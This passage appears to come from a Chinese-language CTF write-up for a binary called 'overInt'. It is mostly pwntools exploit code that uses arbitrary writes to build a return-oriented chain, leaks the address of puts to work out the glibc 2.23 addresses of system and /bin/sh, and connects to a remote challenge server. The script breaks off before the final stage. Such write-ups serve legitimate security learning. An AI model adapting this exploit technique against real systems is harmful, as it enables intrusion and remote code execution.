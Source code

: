 ```python
write(0x50, '\x7f')
write(0x51, '\x08')
write(0x52, '\x40')
write(0x53, '\x00')
write(0x54, '\x00')
write(0x55, '\x00') # 跳回 main() 开头再次触发漏洞

p.recvuntil('hello!')
puts_addr = u64(p.recvline().ljust(8,'\x00')) - 0xa000000000000
print 'puts_addr: ' + hex(puts_addr)
```

其次，得到 `puts` 真实地址后，查 libc-database 得知是 glibc 2.23，也可以计算出 `system` 和 `/bin/sh` 地址。最后我们需要回到 `main()` 开头再次触发漏洞，用同样的套路给 `system` 传参，跳到 `system` 就成功了。

最后全部 exp 如下：
```python
from pwn import *

context.log_level = 'debug'

#p = process('./overInt')
p = remote('58.20.46.148',35272)

#gdb.attach(p)

def pwn_main():
	p.recvuntil('number: \n')
	p.send('\x1e\x28\x7a\x61')

	p.recvuntil('have?\n')
	p.send('\x05\x00\x00\x00')
	p.recvuntil('is: \n')
	p.sendline('\x72\x33\x63\x20')
	for _ in range(3):
		p.recvuntil('is: \n')
		p.sendline('\x01\x01')

	p.recvuntil('modify?\n')

def write(offset, data):
	p.recvuntil('modify?\n')
	p.send(p32(offset))
	p.recvuntil('write in?\n')
	p.send(data)

pwn_main()
p.send('\x15\x00\x00\x00')
write(0x38, '\x13')
write(0x39, '\x0b')
write(0x3a, '\x40')
write(0x3b, '\x00')
write(0x3c, '\x00')
write(0x3d, '\x00')
write(0x40, '\x18')
write(0x41, '\x20')
write(0x42, '\x60')
write(0x48, '\x50')
write(0x49, '\x05')
write(0x4a, '\x40')
write(0x4b, '\x00')
write(0x4c, '\x00')
write(0x4d, '\x00')
write(0x50, '\x7f')
```